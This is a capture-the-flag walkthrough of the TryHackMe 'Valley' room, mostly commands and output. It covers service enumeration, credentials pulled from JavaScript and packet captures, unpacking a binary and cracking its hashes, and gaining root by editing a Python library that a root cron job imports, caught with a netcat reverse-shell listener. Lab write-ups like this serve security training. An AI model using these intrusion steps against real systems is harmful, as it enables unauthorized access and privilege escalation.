

# Valley Room

[Link for the room on Try Hack Me](https://tryhackme.com/room/valleype).

## Enumeration

```
$ sudo nmap -p- -sS -sC -sV 10.10.233.14
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-02 20:55 -03
Nmap scan report for 10.10.233.14
Host is up (0.20s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|   256 429e2ff63e5adb51996271c48c223ebb (ECDSA)
|_  256 2ea0a56cd983e0016cb98a609b638672 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 719.12 seconds
```

There is a HTTP server on port 80. Let's check it out.


By clicking on `View Gallery` the following page is 
displayed:


Here we can see that the page is in a directory called `gallery`.

When we select one of the images, the following is exhibited:


Here we can see that the file is in a directory called `static`.

Let's go back to the home page and click on `View pricing`. We can see the page bellow:


Here we can see that the page in in a directory called `pricing`.

Let's enumerate further with Gobuster:

```
$ gobuster dir -u http://10.10.233.14/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.233.14/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/02 12:37:14 Starting gobuster in directory enumeration mode
===============================================================
/gallery              (Status: 301) [Size: 314] [--> http://10.10.233.14/gallery/]
/static               (Status: 301) [Size: 313] [--> http://10.10.233.14/static/]
/pricing              (Status: 301) [Size: 314] [--> http://10.10.233.14/pricing/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/06/02 13:55:37 Finished
===============================================================
```

There are really only those three directories. Let's enumerate `static` first.

On the following enumeration, some errors have occured, but there's a insteresting file called `00`, that do not correspond to any of the photos listed on the gallery.

```
$ gobuster dir -u http://10.10.233.14/static/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.233.14/static/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/02 13:53:51 Starting gobuster in directory enumeration mode
===============================================================
/11                   (Status: 200) [Size: 627909]
/3                    (Status: 200) [Size: 421858]
/1                    (Status: 200) [Size: 2473315]
/12                   (Status: 200) [Size: 2203486]
Progress: 100 / 220561 (0.05%)[ERROR] 2023/06/02 13:54:02 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/13                   (Status: 200) [Size: 3673497]
Progress: 103 / 220561 (0.05%)[ERROR] 2023/06/02 13:54:03 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/14                   (Status: 200) [Size: 3838999]
/15                   (Status: 200) [Size: 3477315]
[ERROR] 2023/06/02 13:54:04 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/18                   (Status: 200) [Size: 2036137]
/16                   (Status: 200) [Size: 2468462]
/6                    (Status: 200) [Size: 2115495]
/9                    (Status: 200) [Size: 1190575]
/5                    (Status: 200) [Size: 1426557]
/17                   (Status: 200) [Size: 3551807]
/7                    (Status: 200) [Size: 5217844]
Progress: 474 / 220561 (0.21%)[ERROR] 2023/06/02 13:54:14 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/00                   (Status: 200) [Size: 127]
Progress: 13556 / 220561 (6.15%)[ERROR] 2023/06/02 13:58:57 [!] Get "http://10.10.233.14/static/Headers": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/06/02 15:11:56 Finished
===============================================================
```

Let's check the `00` file in the static folder:


The file mentions a diretory called `/dev1243224123123`. Let's take a look:


It's a login page. Let's check its source code:


There's a Javascript code. Let's analyse `dev.js`:


Rolling the page down, we are presented with some credentials: username `siemDev` and password `california` as well as a new file `/dev1243224123123/devNotes37370.txt`. From the code, we can find out that, using those credentials we can have access to the file. Let's check it:


The file mentions reuse of credentials, and the FTP port. We could try to use the found credentials to access the FTP:

```
$ ftp 10.10.233.14 37370
Connected to 10.10.233.14.
220 (vsFTPd 3.0.3)
Name (10.10.233.14:kali): siemDev
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

We got access! Let's list the files and directories:

```
ftp> ls
229 Entering Extended Passive Mode (|||47906|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06 13:55 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06 13:55 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06 14:06 siemHTTP2.pcapng
226 Directory send OK.
```

Let's download the files. (I deactivated the passive mode here)

```
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> get siemFTP.pcapng
local: siemFTP.pcapng remote: siemFTP.pcapng
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for siemFTP.pcapng (7272 bytes).
100% |****************************************************************************************************************|  7272        3.49 MiB/s    00:00 ETA
226 Transfer complete.
7272 bytes received in 00:00 (34.45 KiB/s)
ftp> get siemHTTP1.pcapng
local: siemHTTP1.pcapng remote: siemHTTP1.pcapng
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |****************************************************************************************************************|  1932 KiB  349.34 KiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:05 (336.91 KiB/s)
ftp> get siemHTTP2.pcapng
local: siemHTTP2.pcapng remote: siemHTTP2.pcapng
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |****************************************************************************************************************|  1926 KiB  548.34 KiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:03 (518.19 KiB/s)
ftp> bye
221 Goodbye.
```

Let's check first `siemFTP.pcapng`. Selecting the first packet and choosing `Follow -> TCP Stream`, we have:


Here, we got new credentials: the access of FTP as `anonymous`, but it does not work anymore.

Let's analyse `siemHTTP1.pcapng`. We can use the filter `http.request.method==POST` to search for some information being sent by POST. There are no resulting packets when the filter is applied.

Finally, let's inspect `siemHTTP2.pcapng` using the same filter as before. Here we see a POST with an interesting content: 


There are some new credentials for us! The username `valleyDev` and the password `ph0t0s1234`. How about using these to login using SSH? Let's give it a try.

```
ssh valleyDev@10.10.233.14                   
The authenticity of host '10.10.233.14 (10.10.233.14)' can't be established.
ED25519 key fingerprint is SHA256:cssZyBk7QBpWU8cMEAJTKWPfN5T2yIZbqgKbnrNEols.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:138: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.233.14' (ED25519) to the list of known hosts.
valleyDev@10.10.233.14's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$
```

It worked! Now, let's try to find the user flag.

```
valleyDev@valley:~$ ls -la
total 24
drwxr-xr-x 5 valleyDev valleyDev 4096 Mar 13 08:17 .
drwxr-xr-x 5 root      root      4096 Mar  6 13:19 ..
-rw-r--r-- 1 root      root         0 Mar 13 09:03 .bash_history
drwx------ 3 valleyDev valleyDev 4096 Mar 20 20:02 .cache
drwx------ 4 valleyDev valleyDev 4096 Mar  6 13:18 .config
drwxr-xr-x 3 valleyDev valleyDev 4096 Mar  6 13:18 .local
-rw-rw-rw- 1 root      root        24 Mar 13 08:17 user.txt
valleyDev@valley:~$ cat user.txt
THM{<redacted>}
```

Let's proceed escalating privilege and searching the root flag.

The user `valleyDev` can't run sudo.

```
valleyDev@valley:~$ sudo -l
[sudo] password for valleyDev: 
Sorry, user valleyDev may not run sudo on valley.
```

Let's check the crontab file:

```
valleyDev@valley:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

There is a cron job that runs as root. Let's check the file and its permissions.

```
valleyDev@valley:~$ ls -la /photos/script/photosEncrypt.py
-rwxr-xr-x 1 root root 621 Mar  6 15:43 /photos/script/photosEncrypt.py
```

We can read and execute it.

Let's take a look.

```
valleyDev@valley:~$ cat /photos/script/photosEncrypt.py
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

It uses the `base64` Python module. How about adding some lines in this module? 

Lets check where it is located.

```
valleyDev@valley:~$ locate base64
...
/usr/lib/python3.8/base64.py
...
```

Here we have its location. We could add a line into the module to execute a reverse shell, so, when the cron job is executed as root, we will have a shell with root privileges! But first, let's check if we have writting privileges on `/usr/lib/python3.8/base64.py`

```
valleyDev@valley:~$ ls -la /usr/lib/python3.8/base64.py
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
```

Unfortunately not. 😞

Let's check if there are other users in the home folder.

```
valleyDev@valley:~$ cd /home
valleyDev@valley:/home$ ls -la
total 752
drwxr-xr-x  5 root      root        4096 Mar  6 13:19 .
drwxr-xr-x 21 root      root        4096 Mar  6 15:40 ..
drwxr-x---  4 siemDev   siemDev     4096 Mar 20 20:03 siemDev
drwxr-x--- 16 valley    valley      4096 Mar 20 20:54 valley
-rwxrwxr-x  1 valley    valley    749128 Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 valleyDev valleyDev   4096 Mar 13 08:17 valleyDev
```

There are not only more users but also a interesting file: `valleyAuthenticator`.

Let's check the file type:

```
valleyDev@valley:/home$ file valleyAuthenticator 
valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
```

Since it is an ELF executable, we can't read the code directly, but we can inspect it. Let's execute it.

```
valleyDev@valley:/home$ ./valleyAuthenticator 
Welcome to Valley Inc. Authenticator
What is your username: valley
What is your password: xxxx
Wrong Password or Username
```

It seems like a validator for valley credentials. Let's analyse it with strings:

```
valleyDev@valley:/home$ strings valleyAuthenticator 

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.
```

There is no `strings` on the attacked machine. Then, let's download it to our attacking machine

```
scp valleyDev@10.10.233.14:/home/valleyAuthenticator .
valleyDev@10.10.233.14's password: 
valleyAuthenticator                                                                                                        100%  732KB 392.1KB/s   00:01 
```

Now, let's use `strings` and save the output as `stringsValley.txt`.

```
strings valleyAuthenticator > stringsValley.txt
```

Analysing the output of the command, we can see a juicy text in line 8830:


Let's check `http://upx.sf.net`:


The binary is packed. So, let's do a backup and unpack it.

```
$ cp valleyAuthenticator valleyAuthenticator.bkup  
$ upx --help                          
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

Usage: upx [-123456789dlthVL] [-qvfk] [-o file] file..

Commands:
  -1     compress faster                   -9    compress better
  --best compress best (can be slow for big files)
  -d     decompress                        -l    list compressed file
  -t     test compressed file              -V    display version number
  -h     give this help                    -L    display software license
```

Let's proceed.

```
$ upx -d valleyAuthenticator
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   2285616 <-    749128   32.78%   linux/amd64   valleyAuthenticator

Unpacked 1 file.
```

Now, let's use `strings` on the unpacked file and search its output by the string `"password"`, showing 5 lines before the occurence and 5 lines after it.

```
$ strings valleyAuthenticator | grep -i pass -A 5 -B 5  
tKU1
e6722920bab2326f8217e4bf6b1b58ac
dd2921cc76ee3abfd2beb60709056cfb
Welcome to Valley Inc. Authenticator
What is your username: 
What is your password: 
Authenticated
Wrong Password or Username
basic_string::_M_construct null not valid
%02x
basic_string::_M_construct null not valid
terminate called recursively
  what(): 
```

It seems we got 2 hashes! Let's try cracking it on `crackstation.net`.



We have `valley` and `liberty123`. It looks like our username and password. 😊

Let's try using it to log on using SSH.

```
$ ssh valley@10.10.233.14                            
valley@10.10.233.14's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

valley@valley:~$ 
```

Let's check which groups the user `valley` belongs to:

```
valley@valley:~$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

Let's try `sudo`.

```
valley@valley:~$ sudo -l
[sudo] password for valley: 
Sorry, user valley may not run sudo on valley.
```

The `valley` user can't run sudo, however, we can check if they have write permission on `/usr/lib/python3.8/base64.py`.

```
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
```

Yeah! This way, we can proceed with the modification of the Python module.

Let's generate a reverse shell at [revshells.com](https://www.revshells.com/)


Let's edit the `base64` Python3 module and set up a listener on the attacker machine

```
valley@valley:~$ nano /usr/lib/python3.8/base64.py
```


Setting up the listener...

```
$ nc -lnvp 4444        
listening on [any] 4444 ...
```

Now, we wait a few moments... and... there you are!

```
$ nc -lnvp 4444        
listening on [any] 4444 ...
connect to [10.18.54.90] from (UNKNOWN) [10.10.233.14] 52652
bash: cannot set terminal process group (1233): Inappropriate ioctl for device
bash: no job control in this shell
root@valley:~# 
```

Let's check privileges.

```
root@valley:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Let's capture the root flag.

```
root@valley:~# cd /root
cd /root
root@valley:~# ls -la
ls -la
total 56
drwx------  8 root root 4096 Mar 13 08:17 .
drwxr-xr-x 21 root root 4096 Mar  6 15:40 ..
-rw-------  1 root root    0 Mar 21 07:30 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 20 20:04 .cache
drwxr-xr-x  4 root root 4096 Mar  6 13:02 .config
drwx------  4 root root 4096 Aug 15  2022 .gnupg
drwxr-xr-x  3 root root 4096 Aug 11  2022 .local
-rw-------  1 root root   49 Mar  3 10:19 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   37 Mar 13 08:17 root.txt
-rw-r--r--  1 root root   66 Aug 15  2022 .selected_editor
drwx------  3 root root 4096 Aug 11  2022 snap
drwx------  2 root root 4096 Aug 14  2022 .ssh
-rw-r--r--  1 root root  222 Aug 15  2022 .wget-hsts
root@valley:~# cat root.txt     
cat root.txt
THM{<redacted>}
```

This way we have finished the Valley room! I hope this guide may have been useful for you!
